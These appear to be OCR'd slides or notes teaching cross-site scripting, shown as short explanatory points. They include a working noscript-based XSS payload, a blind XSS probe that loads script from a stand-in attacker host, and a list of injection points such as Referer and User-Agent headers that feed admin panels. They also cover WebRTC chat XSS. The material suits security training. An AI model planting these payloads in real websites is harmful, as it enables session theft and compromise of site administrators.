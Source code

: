 ⬇️ if JavaScript is **enabled**

```html
<noscript><p title="</noscript>
<img src="x" onerror="alert(1)">
"">
"
```

⬇️

XSS triggered!

---

## bXSS - Blind XSS

Where there is an XSS you can't see or know about (from the attacker POV).

probe ➡️ attacker controlled service

```html
"><script src="http://pingback.example.org"></script>
```

---

## bXSS endpoints

- Contact forms, Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box -> Administrative Panel

---

## WebRTC (p2p) XSS

- Audio / video communication in the browser
- Eg. Lync, GoToMeeting, Hangouts, Skype, Adobe Connect, WebEx, WhatsApp, FaceTime
- p2p browser connection
- JavaScript powered
- In name, file attached, etc.
- No server so must be filtered client side

---
